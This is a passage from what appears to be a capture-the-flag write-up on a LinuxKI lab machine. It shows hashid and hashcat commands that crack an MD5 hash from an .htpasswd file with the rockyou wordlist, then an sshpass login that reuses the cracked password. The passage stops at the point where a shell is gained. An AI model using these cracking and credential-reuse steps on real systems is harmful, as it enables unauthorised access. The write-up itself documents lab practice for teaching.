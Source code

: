 ![evidence](./static/07-linuxki-reverseshell.png)

When I explore the server, then I can see the user flag. And a `reminder.txt` file, and the `.htpasswd` file has a hash for chris's password:

![evidence](./static/08-censored-userflag.png)

When I store the found hash in a file called `chis.hash`, and I identify the hash type with the `hashid` command:
```shell
$ hashid chris.hash
Analyzing '3c8215a24ce02091d3f52c6c881ec3ea'
[+] MD2
[+] MD5
[+] MD4
...
```
Then I guess it is an MD5 hash. When I use the `hashcat` command with the Rockyou list:
```shell
$ hashcat -a 0 -m 0 chris.hash rockyou.txt --force
...
3c8215a24ce02091d3f52c6c881ec3ea:beermeplease
...
```
Then I  confirm that I can crack the hash. When I try to reuse the password with the `ssh` command:
```
sshpass -p "beermeplease" ssh chris@192.168.2.17
```
Then I can access chris's shell:
